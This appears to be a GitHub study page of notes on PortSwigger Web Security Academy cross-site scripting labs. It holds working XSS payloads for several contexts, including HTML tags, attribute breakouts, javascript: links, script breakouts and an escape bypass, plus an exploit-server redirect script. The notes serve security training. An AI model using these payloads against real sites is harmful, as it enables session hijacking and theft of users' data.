 
# XSS Context labs

- [Between HTML Tags](https://portswigger.net/web-security/cross-site-scripting/contexts#xss-between-html-tags)
- [In HTML tag attributes](https://portswigger.net/web-security/cross-site-scripting/contexts#xss-in-html-tag-attributes)
- [In JavaScript](https://portswigger.net/web-security/cross-site-scripting/contexts#xss-into-javascript)

</br>

## Reflected XSS into HTML context with most tags and attributes blocked
`search=<>`

```HTML
 <section class=blog-header>
    <h1>0 search results for '<>'</h1>
    <hr>
  </section>
```
</br>

## Reflected XSS into HTML context with all tags blocked except custom ones
https://github.com/LinuxUser255/Web-Security-Academy-Series

**Request**
```http
GET /?search=document
```

**Response**
```HTML
<h1>1 search results for 'document'</h1>

```

```html

<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
```

```
This injection creates a custom tag with the ID x,
which contains an onfocus event handler that triggers
the alert function.
The hash at the end of the URL focuses on this element as
soon as the page is loaded, causing the alert payload to
be called.

```
**Payload to be appended to your lab url and stored in the exploit server**

```js
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
```
```html
<script>
location = 'https://labid.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

</br>

## XSS in HTML tag attributes

When the XSS context is into an HTML tag attribute value, you might sometimes be able to terminate the attribute value, close the tag, and introduce a new one. For example:

`"><script>alert(document.domain)</script>`

More commonly in this situation, angle brackets are blocked or encoded, so your input cannot break out of the tag in which it appears. Provided you can terminate the attribute value, you can normally introduce a new attribute that creates a scriptable context, such as an event handler. For example:

`" autofocus onfocus=alert(document.domain) x="`

The above payload creates an `onfocus` event that will execute JavaScript when the element receives the focus, and also adds the `autofocus` attribute to try to trigger the `onfocus` event automatically without any user interaction. Finally, it adds `x="` to gracefully repair the following markup.

</br>

## Reflected XSS into attribute with angle brackets HTML-encoded

```HTTP
GET /?search="onmouseover="alert(1)
```

```HTML
 <form action=/ method=GET>
 <input type=text placeholder='Search the blog...' name=search value=""onmouseover="alert(1)">
<button type=submit class=button>Search</button>
```

### [Stored XSS into anchor `href` attribute with double quotes HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded)


Sometimes the XSS context is into a type of HTML tag attribute that itself can create a scriptable context. Here, you can execute JavaScript without needing to terminate the attribute value. For example, if the XSS context is into the `href` attribute of an anchor tag, you can use the `javascript` pseudo-protocol to execute script. For example:

`<a href="javascript:alert(document.domain)">`


```HTML
  <p>
   <img src="/resources/images/avatarDefault.svg" class="avatar">                  <a id="author" href="javascript:alert(1)">HACKERMAN
   </a>
</p>
```

1. Repeat the process again but this time replace your input with the following payload to inject a JavaScript URL that calls alert:

    `javascript:alert(1)`


</br>


## XSS into JavaScript

When the XSS context is some existing JavaScript within the response, a wide variety of situations can arise, with different techniques necessary to perform a successful exploit.

### Terminating the existing script

In the simplest case, it is possible to simply close the script tag that is enclosing the existing JavaScript, and introduce some new HTML tags that will trigger execution of JavaScript. For example, if the XSS context is as follows:

```JS
<script>
   ....
	var input = 'controllable data here';
	...
</script>
```

then you can use the following payload to break out of the existing JavaScript and execute your own:

```JS
</script><img src=1 onerror=alert(document.domain)>
```

The reason this works is that the browser first performs HTML parsing to identify the page elements including blocks of script, and only later performs JavaScript parsing to understand and execute the embedded scripts. The above payload leaves the original script broken, with an unterminated string literal. But that doesn't prevent the subsequent script being parsed and executed in the normal way.

</br>

### XSS into JavaScript lab example  

![xss-js-context-01](https://github.com/LinuxUser255/Web-Security-Academy-Series/assets/46334926/ada27410-d5c2-407d-81b7-07c07bce7c7d)



![xss-js-contex-02](https://github.com/LinuxUser255/Web-Security-Academy-Series/assets/46334926/57d2646f-f742-48bf-ba54-493d28110fb0)


</br>

## Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded & single quotes escaped

Some applications attempt to prevent input from breaking out of the JavaScript
string by escaping any single quote characters with a backslash.

**A backslash before a character tells the JavaScript parser that
the character should be interpreted literally**,

and not as a special character such as a string
terminator. In this situation, applications often make the mistake of failing to
escape the backslash character itself. This means that an attacker can use their
own backslash character to neutralize the backslash that is added by the
application.

For example, suppose that the input:

`';alert(document.domain)//`

gets converted to:

`\';alert(document.domain)//`

You can now use the alternative payload:

`\';alert(document.domain)//`

which gets converted to:

`\\';alert(document.domain)//`

Here, the first backslash means that the second backslash is interpreted literally, and not as a special character. 
This means that the quote is now interpreted as a string terminator, and so the attack succeeds.   
